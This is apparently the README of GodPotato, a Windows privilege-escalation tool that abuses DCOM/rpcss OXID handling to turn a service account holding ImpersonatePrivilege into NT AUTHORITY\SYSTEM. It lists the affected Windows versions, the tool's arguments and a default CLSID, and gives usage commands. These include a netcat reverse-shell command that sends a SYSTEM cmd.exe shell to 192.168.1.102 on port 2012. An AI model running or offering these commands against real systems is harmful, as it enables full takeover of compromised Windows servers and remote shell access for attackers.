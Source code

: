 # GodPotato


Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions.



Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges.
However, the historical Potato has no way to run on the latest Windows system. When I was researching DCOM, I found a new method that can perform privilege escalation. There are some defects in rpcss when dealing with oxid, and rpcss is a service that must be opened by the system. , so it can run on almost any Windows OS, I named it GodPotato



# Affected version

Windows Server 2012 - Windows Server 2022 Windows8 - Windows 11


# Example

```

    FFFFF                   FFF  FFFFFFF
   FFFFFFF                  FFF  FFFFFFFF
  FFF  FFFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
 FFFF        FFFFFFF   FFFFFFFF  FFF   FFF  FFFFFFF  FFFFFFFFF   FFFFFF  FFFFFFFFF    FFFFFF
 FFFF       FFFF FFFF  FFF FFFF  FFF  FFFF FFFF FFFF   FFF      FFF  FFF    FFF      FFF FFFF
 FFFF FFFFF FFF   FFF FFF   FFF  FFFFFFFF  FFF   FFF   FFF      F    FFF    FFF     FFF   FFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF         FFFFF    FFF     FFF   FFFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF      FFFFFFFF    FFF     FFF   FFFF
  FFF   FFF FFF   FFF FFF   FFF  FFF       FFF   FFF   FFF     FFFF  FFF    FFF     FFF   FFFF
  FFFF FFFF FFFF  FFF FFFF  FFF  FFF       FFF  FFFF   FFF     FFFF  FFF    FFF     FFFF  FFF
   FFFFFFFF  FFFFFFF   FFFFFFFF  FFF        FFFFFFF     FFFFFF  FFFFFFFF    FFFFFFF  FFFFFFF
    FFFFFFF   FFFFF     FFFFFFF  FFF         FFFFF       FFFFF   FFFFFFFF     FFFF     FFFF


Arguments:

        -clsid Required:False Clsid (default {4991d34b-80a1-4291-83b6-3328366b9097})
        -cmd Required:True CommandLine (default cmd /c whoami)

Example:

GodPotato -cmd "cmd /c whoami"
GodPotato -clsid {4991d34b-80a1-4291-83b6-3328366b9097} -cmd "cmd /c whoami"


```


Use the program's built-in Clsid for privilege escalation and execute a simple command


```
GodPotato -cmd "cmd /c whoami"
```

![](images/1.png)


Customize Clsid and execute commands

```
GodPotato -clsid {4991d34b-80a1-4291-83b6-3328366b9097} -cmd "cmd /c whoami"

```


![](images/2.png)


Execute reverse shell commands

```
GodPotato -clsid {4991d34b-80a1-4291-83b6-3328366b9097} -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```


# License

[Apache License 2.0](/LICENSE) 
